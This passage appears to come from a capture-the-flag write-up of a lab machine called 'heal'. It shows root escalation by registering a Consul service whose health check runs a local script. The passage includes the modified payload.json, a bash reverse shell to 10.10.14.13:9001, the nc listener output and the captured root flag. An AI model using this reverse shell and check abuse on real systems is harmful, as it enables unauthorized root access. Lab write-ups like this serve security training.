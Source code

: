 ### Contents of payload.json

This is a copy of the `payload.json` file. Pay attention to the `Args` parameter. It has been modified so it points to a bash script on the local system. The bash script contains a reverse shell which should be executed as root which will return a root shell.

```json
{
  "ID": "redis1",
  "Name": "redis",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 8000,
  "Meta": {
    "redis_version": "4.0"
  },
  "EnableTagOverride": false,
  "Check": {
    "DeregisterCriticalServiceAfter": "90m",
    "Args": ["/tmp/revshell"],
    "Interval": "10s",
    "Timeout": "5s"
  },
  "Weights": {
    "Passing": 10,
    "Warning": 1
  }
}
```

### Contents of revshell

Full copy of the bash reverse shell.

```console
ron@heal:/tmp$ cat revshell
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.13/9001 0>&1
```

# Root Shell Obtained

Shortly after registering the service a call back was received on the listener. Root flag captured. 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.46] 49864
bash: cannot set terminal process group (92948): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# cat /root/root.txt
cat /root/root.txt
50c30ca5a4330f6ab3911fef93eb4362
root@heal:/# 
```


